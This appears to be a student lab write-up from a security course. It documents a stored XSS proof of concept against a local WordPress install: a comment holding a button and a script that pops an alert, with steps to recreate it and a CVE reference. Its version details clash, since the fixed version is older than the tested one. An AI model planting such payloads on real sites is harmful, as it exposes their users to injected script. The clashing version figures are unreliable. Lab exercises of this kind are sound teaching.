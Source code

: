 # Codepathweek7
Exploit 1: “Upload Same Origin Method Execution”
- Summary: Attacking the system via a user clicking on a malicious comment that alerts the user.   
- Vulnerability types: XSS
- Tested in version: 4.5.1	
- Fixed in version: 4.2.8
- Steps to recreate: 
1.	Go to any post.
2.	Paste the following as a comment:
<button onclick="fire()">Click</button>
<script>
function fire() {
open('javascript:alert("exploit 1: Same Origin Method Execution")');
}
</script>
3.	Click on the button.
4.	Alert(1) will pop up.
-	Affected source code:
      http://localhost/wp-admin/comment.php?action=editcomment&c=9
-	CVE:   2016-4566

